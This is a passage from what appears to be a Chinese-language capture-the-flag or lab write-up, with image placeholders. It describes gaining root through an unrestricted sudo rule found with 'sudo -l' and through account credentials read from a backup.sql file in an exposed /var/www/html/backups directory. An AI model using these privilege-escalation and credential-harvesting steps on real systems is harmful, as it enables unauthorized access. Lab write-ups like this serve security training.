

```
sudo -l
```

发现可以运行任意命令，直接提权，拿到root权限

## 二：

在/var/www/html下有一个backups目录



里面有一个backup.sql文件



也可以得到密码和账号，拿到root